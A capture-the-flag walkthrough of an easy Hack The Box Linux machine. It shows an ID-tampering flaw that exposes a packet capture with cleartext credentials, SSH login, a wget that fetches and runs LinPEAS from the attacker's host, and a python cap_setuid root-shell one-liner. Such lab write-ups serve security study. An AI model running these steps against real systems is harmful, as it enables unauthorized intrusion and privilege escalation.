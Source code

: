 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

---

## 🔍 Recon
```bash
nmap -T4 -A -p- 10.10.10.245
```

### Ports Found
- **21/tcp** → [FTP](FTP) (vsftpd 3.0.3)
- **22/tcp** → [SSH](SSH) (OpenSSH 8.2p1)
- **80/tcp** → [HTTP](HTTP.md) (gunicorn)

---

## 🔧 Web Enumeration
- Visit `http://10.10.10.245` → Security Dashboard interface
- `Security Snapshot` → Download PCAP files via `/download` endpoint
- Change `id=1` to `id=0` to reveal an additional hidden PCAP

### Download and Analyze PCAP
```bash
# Download hidden capture
curl "http://10.10.10.245/download?id=0" -o hidden.pcap

# Open in Wireshark and search for "password"
```

### Extracted Credentials from FTP
- **Username:** nathan
- **Password:** Buck3tH4TF0RM3!

---

## 🔐 Access via SSH
```bash
ssh nathan@10.10.10.245
# password: Buck3tH4TF0RM3!
```

---

## 🪧 Privilege Escalation
### Use LinPEAS
```bash
# Transfer and run LinPEAS
wget http://10.10.14.6/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Finding
- `/usr/bin/python3.8` has **cap_setuid** capability

### GTFOBins Exploit
```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

---

## ✅ Root Access
```bash
whoami
id
cat /root/root.txt
```

---

## 📂 Summary
- Cleartext FTP credentials found in PCAP
- Used for SSH access
- `cap_setuid` capability abused on Python for root shell

---

## 📃 Resources
- [GTFOBins - python](https://gtfobins.github.io/gtfobins/python/#capabilities)
- [CVE-Exploit Reference](https://www.hackthebox.com)